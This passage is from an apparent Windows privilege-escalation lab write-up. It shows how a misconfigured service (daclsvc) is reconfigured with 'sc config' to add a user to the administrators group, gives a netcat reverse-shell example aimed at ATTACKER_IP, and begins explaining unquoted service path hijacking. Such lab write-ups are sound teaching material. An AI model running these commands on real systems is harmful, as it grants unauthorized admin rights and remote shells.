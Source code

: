 We note that the **Everyone** has the **“SERVICE_CHANGE_CONFIG”** permission. Thanks to this, we can configure the daclsvc service (owned by the system) to run whatever command we want, like, for example, a command to elevate the user to admin privileges or maybe a command that sends back a shell with system privileges (sc config daclsvc binpath= “nc.exe ATTACKER_IP 4444 -e cmd.exe”). In this case, we add the user in the administrator localgroup.

##### Exploitation

To exploit this, we run the following command:
```
sc config daclsvc binpath= "net localgroup administrators user /add"
```

Then we start the daclsvc service with the command ```sc start daclsvc``` and finally, we check that the user belongs to administrator localgroup:

![Execution](/assets/img/posts/windows-privesc/task9/execution.png)



### <span style="color: var(--link-color);">[Task 10] - Service Escalation - Unquoted Service Paths </span>

When a service is started, the Windows system tries to find the location of the executable to run the service. Indeed, if the executable path is enclosed in the quote "" then the system will know exactly where to find it. But, if in the path there are any quotes, then Windows will look for it and execute it in every folder of the path. 
So, for example, if we have the path 
```
C:\Program Files\Unquoted Path Service\Common Files\service.exe
```

Windows will search in this order:
```
    C:\Program.exe
    C:\Program Files\Unquoted.exe
    C:\Program Files\Unquoted Path.exe
    C:\Program Files\Unquoted Path Service\Common.exe
    C:\Program Files\Unquoted Path Service\Common Files\service.exe
```
